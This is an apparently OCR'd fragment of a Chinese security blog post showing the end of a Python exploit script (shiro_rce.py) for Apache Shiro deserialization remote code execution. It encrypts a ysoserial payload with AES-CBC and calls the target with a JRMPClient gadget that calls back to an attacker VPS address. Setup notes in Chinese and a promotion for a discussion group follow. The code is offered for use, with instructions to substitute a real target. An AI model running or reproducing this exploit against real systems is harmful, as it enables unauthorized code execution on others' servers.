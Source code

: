 ```
    mode = AES.MODE_CBC      4
    iv = uuid.uuid4().bytes      4
    encryptor = AES.new(base64.b64decode(key), mode, iv)      4
    file_body = pad(popen.stdout.read())      4
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))      4
    return base64_ciphertext      4
poc('http://www.test.com','114.118.80.138:12345',keys[1],'JRMPClient')   #www.test.com替换成目标主机的链接，114.118.80.138替换成自己VPS的地址
```




注意：windows机器上和VPS机器上均要有ysoserial-0.0.6-SNAPSHOT-all.jar文件，并且windows机器上的ysoserial-0.0.6-SNAPSHOT-all.jar要和shiro\_rce.py文件在同一目录。并且windows机器上还需要装一个pycrypto库包，该库包是Crypto.Cipher的包。



  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！



![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)
